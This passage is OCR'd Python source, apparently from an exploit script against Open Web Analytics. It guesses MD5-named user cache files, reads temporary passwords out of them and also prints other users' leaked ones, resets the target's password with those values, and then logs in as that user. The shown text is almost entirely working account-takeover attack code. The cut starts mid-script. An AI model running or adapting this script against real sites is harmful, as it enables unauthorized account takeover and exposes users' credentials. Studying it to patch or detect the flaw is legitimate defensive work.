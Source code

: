 ```
except Exception as e:
   print_message('An error occurred during the login attempt!', "ERROR")
   print(e)
   exit()
else:
   print_message('Attempting to generate cache for "' + username + '" user', "INFO")

print_message('Attempting to find cache of "' + username + '" user', "INFO")

found = False

for key in range(100):
   user_id = 'user_id' + str(key)
   userid_hash = hashlib.md5(user_id.encode()).hexdigest() 
   filename = userid_hash + '.php'
   cache_url = base_url + "owa-data/caches/" + str(key) + "/owa_user/" + filename
   cache_request = requests.get(cache_url, proxies=proxies)
   if cache_request.status_code != 200:
      continue;
   cache_raw = cache_request.text
   cache = get_cache_content(cache_raw)
   cache_username = get_cache_username(cache)
   if cache_username != username:
      print_message('The temporary password for a different user was found. "' + cache_username + '": ' + get_cache_temppass(cache), "INFO")
      continue;
   else:
      found = True
      break
if not found:
   print_message('No cache found. Are you sure "' + username + '" is a valid user?', "ERROR")
   exit()

cache_temppass = get_cache_temppass(cache)
print_message('Found temporary password for user "' + username + '": ' + cache_temppass, "INFO")

if args.check:
   print_message('The system appears to be vulnerable!', "ALERT")
   exit()

try:
   data = {
      "owa_password": new_password, 
      "owa_password2": new_password, 
      "owa_k": cache_temppass, 
      "owa_action": 
      "base.usersChangePassword"
   }
   session.post(password_reset_url, data=data, proxies=proxies)
except Exception as e:
   print_message('An error occurred when changing the user password!', "ERROR")
   print(e)
   exit()
else:
   print_message('Changed the password of "' + username + '" to "' + new_password + '"', "INFO")

try:
   data = {
      "owa_user_id": username, 
      "owa_password": new_password, 
      "owa_action": "base.login"
   }
   session.post(login_url, data=data, proxies=proxies)
```